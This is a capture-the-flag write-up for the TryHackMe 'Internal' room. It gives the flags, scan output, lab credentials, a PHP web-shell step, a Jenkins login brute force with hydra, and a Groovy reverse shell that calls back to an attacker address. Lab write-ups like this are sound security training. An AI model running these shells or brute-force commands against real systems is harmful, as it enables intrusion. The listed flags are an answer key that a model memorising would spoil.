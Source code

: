 # Internal
##### Question 1: User Flag
Answer
```bash
THM{int3rna1_fl4g_1}
```

##### Question 2: Root Flag
Answer
```bash
THM{d0ck3r_d3str0y3r}
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Nmap Scan:
```bash

Nmap scan report for 10.10.232.80
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT       ADDRESS
1   37.45 ms  10.6.0.1
2   ... 3
4   105.86 ms 10.10.232.80

```

Host name - internal.thm

Wordpress Valid creds: admin:my2boys

Add PHP shell in 404 not found page in theme for shell

python -c 'import pty; pty.spawn("/bin/bash")'

File /opt/wp-save.txt gave creds to aubreanna
```bash
aubreanna:bubb13guM!@#123
```

```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm
```

```brute force Jenkins Login
hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt

admin:spongebob
```

Jenkins Rev Shell
```bash
String host="10.6.32.32";
int port=1111;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```


File /opt/note.txt gave creds to root
```bash
root:tr0ub13guM!@#123
```